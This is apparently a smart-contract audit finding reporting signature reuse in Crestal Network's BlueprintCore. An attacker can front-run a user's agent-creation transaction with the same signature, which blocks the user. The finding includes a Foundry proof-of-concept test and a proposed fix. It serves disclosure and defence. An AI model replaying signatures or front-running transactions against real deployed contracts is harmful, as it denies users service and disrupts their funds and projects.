 Refined Ash Crane

Medium

# Attacker will block agent creation for user

### Summary

Signature reuse will cause a denial of service for agent creation as attacker can frontrun user's transaction to create a project with the same ID, making it impossible to create an agent.

### Root Cause

In [createAgentWithTokenWithSig()](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L505) the signature is used to verify the signer but the same signature can be reused by an attacker to call [createProjectIDAndDeploymentRequestWithSig()](https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/BlueprintCore.sol#L410) first, creating a project with the same ID.

### Internal Pre-conditions

None

### External Pre-conditions

None

### Attack Path

1. User signs message to create agent with token
2. Attacker frontrunning user's transaction by calling `createProjectIDAndDeploymentRequestWithSig()` with same signature
3. User's transaction to `createAgentWithTokenWithSig()` reverts since project ID already exists

### Impact

The user is unable to create an agent

### PoC

```solidty
function test_Poc_dosCreateAgent() public {
    uint256 victimPrivateKey = 0xDEADBEEF;
    address victim = vm.addr(victimPrivateKey);
    address attacker = makeAddr("attacker");

    string memory base64Proposal = "test base64 proposal";
    string memory serverURL = "http://example.com";

    uint256 validTokenAmount = 100 * 10 ** 18;

    // Mint tokens to the victim account
    mockToken.mint(victim, validTokenAmount);
    // Add the payment address
    blueprint.addPaymentAddress(address(mockToken));
    // Set non-zero cost for creating agents, use any number greater than 0
    blueprint.setCreateAgentTokenCost(address(mockToken), validTokenAmount);

    // Generate the signature
    bytes32 digest = blueprint.getRequestDeploymentDigest(projectId, base64Proposal, serverURL);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(victimPrivateKey, digest);

    bytes memory signature = abi.encodePacked(r, s, v);
    
    // Victim calls createAgentWithTokenWithSig, but the attacker detects transaction in mempool
    // and front-runs it by calling createProjectIDAndDeploymentRequestWithSig
    vm.prank(attacker); 
    blueprint.createProjectIDAndDeploymentRequestWithSig(projectId, base64Proposal, serverURL, signature);
    
    vm.startPrank(victim);
    // Approve the blueprint contract to spend tokens directly from the victim account
    mockToken.approve(address(blueprint), validTokenAmount);
    vm.expectRevert("projectId already exists");
    blueprint.createAgentWithTokenWithSig(projectId, base64Proposal, workerAddress, serverURL, address(mockToken), signature);
}
```

### Mitigation

Consider possibly adding a check that msg.sender and signer are the same address